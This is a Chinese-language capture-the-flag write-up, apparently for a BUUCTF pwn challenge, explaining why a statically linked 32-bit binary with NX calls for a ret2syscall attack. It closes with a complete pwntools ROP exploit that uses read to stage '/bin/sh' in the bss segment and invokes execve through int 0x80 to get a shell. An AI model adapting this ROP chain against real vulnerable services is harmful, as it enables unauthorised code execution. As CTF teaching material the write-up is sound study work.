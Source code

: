 
但是紧接着，就发现左边是这么一坨函数，**就意味着这道题是静态链接，静态链接就意味着我们没办法ret2libc，没有后门函数，没办法ret2text，开了NX保护，没办法ret2shellcode。**

**因此只能是ret2syscall了**。

我们现在需要去找gadget片段。

**因为我们需要设置eax,ebx,ecx,edx这四个寄存器的参数，因此需要去分别找pop这四个寄存器的指令。**


![image-20220411122707636](/upload/img/image-20220411122707636.png)



这里直接就发现了连续pop三个寄存器的指令，比较nice。

![image-20220411122710953](/upload/img/image-20220411122710953.png)

寄存器找完了，现在最大的问题就是怎么把/bin/sh给传进去？

这道题没有类似于pop [ecx]这类指令，因此我们只能另辟蹊径。

**因为存在read函数(如果没有read函数的话，那就系统调用，不过我试了一下，没成功，但原理上是可行的)**，因此我们可以先把read的地址放到返回地址，再执行一次read，将参数写入我们指定的bss段地址，（**为什么要写入bss段，是因为没开pie的情况下，bss段地址是不变的，并且这道题的bss段是可写，这样我们写入参数之后，直接再拿写入的那个bss地址当做ebx的参数即可，如果是写入栈中的话，还需要泄露栈中地址**）

 并且值得一提的是，我们<font color=red>**之后使用pop eax+p32(0xb)这种指令的前提是此时栈顶要是0xb才可以，但是当我们执行read之后，它的三个参数都是在栈顶的，因此我们需要pop三次，把read的参数先给弹出来，这样才能顺理传之后的参数**</font>。

 **最后要注意的一个点就是，这道题用IDA看，距离返回地址是0x18,但是用gdb调试一下发现，它距离返回地址实际上是0x20。**

 最后就是exp了

```python
from pwn import *
p=remote('node4.buuoj.cn',27707)
context(arch='i386',os='linux',log_level='debug')
pop_eax=0x080bae06
pop_ebx=0x080481c9
pop_ecx_ebx=0x0806e851
pop_edx=0x0806e82a
int_0x80=0x080493e1
bss_addr=0x080EAFF0
read_addr=0x0806CD50
pop_edx_ecx_ebx=0x0806e850
payload=0x20*'a'+p32(read_addr)+p32(pop_edx_ecx_ebx)#这三个pop处于read函数的返回地址，连续pop三次，把栈顶的内容弹出来
payload+=p32(0)+p32(bss_addr)+p32(8)#read函数的参数
payload+=p32(pop_eax)+p32(11)+p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(bss_addr)#弹给eax的内容是11，因为11是32位程序execve的系统调用号
payload+=p32(int_0x80)
p.sendline(payload)
p.sendline('/bin/sh\x00')#这里一定要输入这个\x00去截断
p.interactive()
```
##picoctf_2018_can_you_gets_me
